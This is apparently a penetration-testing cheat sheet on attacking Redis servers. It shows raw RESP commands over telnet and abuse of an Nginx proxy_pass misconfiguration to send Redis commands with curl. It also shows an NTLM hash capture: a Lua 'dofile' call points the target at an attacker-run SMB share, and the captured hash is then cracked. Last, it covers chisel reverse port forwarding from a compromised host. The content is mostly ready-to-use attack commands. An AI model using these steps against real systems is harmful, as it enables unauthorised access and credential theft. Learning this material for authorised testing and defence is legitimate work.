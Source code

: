 Copied!

Commands (RESP Format)
RESP (REdis Serialization Protocol) is The syntax is…

*<num> The number of arguments.
$<num> The string length of the argument.
Below is the command same as set name "john".

telnet 10.0.0.1 6379
Trying 10.0.0.1...
Connected to 10.0.0.1.
Escape character is '^]'.

*3
$3
set
$4
name
$4
john
Copied!

GET/SET Key Value Commands with Nginx Misconfiguration
location ~ /(.*)/(.*) {
    resolver 127.0.0.1; proxy_pass http://example.com/$1;
}
Copied!
We can connect to redis socket using curl command.

# HSET <key> <field> <value>
curl -X "HSET" https://example.com/unix:/path/to/redis.sock:<key>%20<field>%20<value>%20/abc
Copied!

NTLM Hash Disclosure
In local machine, start SMB server.

mkdir share
sudo impacket-smbserver share ./share/ -smb2support
Copied!
Now execute the following command in Redis client.

> eval "dofile('//10.0.0.1/share')" 0
Copied!
We might get a NTLM hash in the incoming connection to the SMB server. We can see the SMB server logs in terminal.
If the NTLM hash found, crack it.


Port Forwarding Redis Server to Local Machine
In local machine,

chisel server -p 9001 --reverse
Copied!
In target machine,

./chisel client <local-ip>:9001 R:6379:127.0.0.1:6379
